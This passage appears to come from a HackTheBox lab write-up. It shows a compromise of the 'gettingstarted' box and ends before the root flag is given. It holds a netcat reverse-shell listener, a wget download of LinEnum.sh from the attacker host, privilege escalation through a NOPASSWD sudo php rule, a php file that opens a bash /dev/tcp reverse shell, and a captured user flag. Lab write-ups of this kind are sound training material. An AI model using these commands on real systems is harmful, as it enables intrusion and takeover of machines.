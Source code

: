 as soon as the file is written, verify that it's there (browse to http://gettingstarted.htb/data/) and then comment out or remove the line from the template php file.

i set up a local `nc -lnvp 1337` listener and opened the file in the browser. tadaa. we got a reverse shell.

just as with the nibble box, `which python3` shows us that python is available, so let's upgrade our shell...

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

navigate to `/home/mrb3n` and find the `flag.txt` file.

```
7002d65b149b0a4d19132a66feed21d8
```

download `LinEnum.sh` and serve it from the attacker vm with `sudo python3 -m http.server 8080`, then download it from the target vm with `wget http://10.10.14.24:8080/LinEnum.sh` (make sure to first navigate back to `var/www/html/data`). then run it!

```
$ chmod +x LinEnum.sh
$ ./LinEnum.sh

... SNIP ...

[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php


[+] Possible sudo pwnage!
/usr/bin/php

... SNIP ...
```

we can escalate by providing a reverse shell through `sudo php root.php`. we just need to create this file. we can do it locally and then download it to the target, as we did earlier. here's what it looks like:

```
$ cat root.php
<?php echo system('bash -c \'bash -i >& /dev/tcp/10.10.14.24/4711 0>&1\''); ?>
```

serve and download it just like the LinEnum file earlier, setup a nc listener on port 4711 and run `sudo php root.php`.

the root flag is:
